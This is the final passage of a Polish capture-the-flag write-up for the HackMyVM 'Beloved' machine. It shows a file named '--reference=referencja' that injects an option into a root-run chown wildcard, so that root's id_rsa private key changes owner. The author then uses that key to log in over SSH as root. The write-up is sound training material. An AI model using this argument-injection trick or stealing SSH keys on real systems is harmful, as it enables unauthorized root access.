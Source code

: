 Po chwili właścicielem klucza **id_rsa** jest **beloved**:
{: .text-justify}
```console
-rw-r--r--  1 beloved beloved    0 Sep 30 11:31 '--reference=referencja'
drwxrwx---  2 root    beloved 4096 Sep 30 11:31  .
drwxr-xr-x 18 root    root    4096 May 19 10:09  ..
-rw-------  1 beloved beloved 1823 Jun 27 16:41  id_rsa
-rw-r--r--  1 beloved beloved    0 Sep 30 11:31  referencja
```
Kopiujemy ten klucz na nasz serwer, logujemy się i mamy **root**a:
{: .text-justify}
 ```bash
# root@kali:/home/szikers/beloved# ssh -i id_rsa root@beloved
```
```console
Linux beloved 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Sep 30 11:39:03 2021 from 172.16.1.10
root@beloved:~# id
uid=0(root) gid=0(root) groups=0(root)
```
## 08. Jest coś jeszcze?
Tak, możemy zobaczyć co jest na tym **Wordpress**ie. Dodam tylko, że hasła są widoczne w plikach, a w bazie danych po prostu wklejamy nasze hasło, które sobie stworzymy. Ale to już zostawiam czytelnikowi.
{: .text-justify}
{% include gallery id="gallery1" %}
## 09. Koniec
Artykuł był inspirowany z [bloga](https://grumpygeekwrites.wordpress.com/2021/06/29/hackmyvm-beloved-walk-through-tutorial-writeup/). Oczywiście przejście jest inne.
{: .text-justify}
